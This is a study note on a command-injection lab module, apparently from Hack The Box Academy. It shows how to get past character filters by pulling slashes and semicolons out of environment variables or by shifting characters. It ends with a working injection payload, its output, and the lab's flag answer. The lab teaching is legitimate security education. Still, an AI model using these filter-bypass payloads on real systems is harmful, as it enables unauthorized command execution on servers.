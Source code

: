 ```yaml
---
sticker: emoji//1f4bb
---
```

Besides injection operators and space characters, a very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. We can utilize several techniques to produce any character we want while avoiding the use of blacklisted characters.

---

## Linux

There are many techniques we can utilize to have slashes in our payload. One such technique we can use for replacing slashes (`or any other character`) is through `Linux Environment Variables` like we did with `${IFS}`. While `${IFS}` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify `start` and `length` of our string to exactly match this character.

For example, if we look at the `$PATH` environment variable in Linux, it may look something like the following:

```shell-session
smoothment@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

So, if we start at the `0` character, and only take a string of length `1`, we will end up with only the `/` character, which we can use in our payload:


```shell-session
smoothment@htb[/htb]$ echo ${PATH:0:1}

/
```

```ad-note
**Note:** When we use the above command in our payload, we will not add `echo`, as we are only using it in this case to show the outputted character.
```

We can do the same with the `$HOME` or `$PWD` environment variables as well. We can also use the same concept to get a semi-colon character, to be used as an injection operator. For example, the following command gives us a semi-colon:


```shell-session
smoothment@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```

Exercise: Try to understand how the above command resulted in a semi-colon, and then use it in the payload to use it as an injection operator. Hint: The `printenv` command prints all environment variables in Linux, so you can look which ones may contain useful characters, and then try to reduce the string to that character only.

So, let's try to use environment variables to add a semi-colon and a space to our payload (`127.0.0.1${LS_COLORS:10:1}${IFS}`) as our payload, and see if we can bypass the filter: 

![Filter Operator](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_5.jpg)

As we can see, we successfully bypassed the character filter this time as well.

---

## Windows

The same concept works on Windows as well. For example, to produce a slash in `Windows Command Line (CMD)`, we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\htb-student`), and then specify a starting position (`~6` -> `\htb-student`), and finally specifying a negative end position, which in this case is the length of the username `htb-student` (`-11` -> `\`) :

```cmd-session
C:\htb> echo %HOMEPATH:~6,-11%

\
```

We can achieve the same thing using the same variables in `Windows PowerShell`. With PowerShell, a word is considered an array, so we have to specify the index of the character we need. As we only need one character, we don't have to specify the start and end positions:

```powershell-session
PS C:\htb> $env:HOMEPATH[0]

\


PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>
```

We can also use the `Get-ChildItem Env:` PowerShell command to print all environment variables and then pick one of them to produce a character we need. `Try to be creative and find different commands to produce similar characters.`

---

## Character Shifting

There are other techniques to produce the required characters without using them, like `shifting characters`. For example, the following Linux command shifts the character we pass by `1`. So, all we have to do is find the character in the ASCII table that is just before our needed character (we can get it with `man ascii`), then add it instead of `[` in the below example. This way, the last printed character would be the one we need:

```shell-session
smoothment@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
smoothment@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

We can use PowerShell commands to achieve the same result in Windows, though they can be quite longer than the Linux ones.

Exercise: Try to use the the character shifting technique to produce a semi-colon `;` character. First find the character before it in the ascii table, and then use it in the above command.

# Question
---

![[Pasted image 20250205141832.png]]

We can do the following payload:

```
127.0.0.1%0als${IFS}${PATH:0:1}home
```

```ad-important
#### Breakdown
---
### **Explanation**

1. **`%0a`**: New-line character to terminate the original command (e.g., `ping 127.0.0.1`) and inject a new command.
    
2. **`ls`**: Command to list directories.
    
3. **`${IFS}`**: Replaces the space between `ls` and the directory path.
    
4. **`${PATH:0:1}`**: Extracts the first character (`/`) from the `PATH` environment variable.
    
5. **`home`**: Appended to `${PATH:0:1}` to form `/home`.
```

We'll see the following payload:

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.012/0.012/0.012/0.000 ms
1nj3c70r
```

Answer is `1nj3c70r`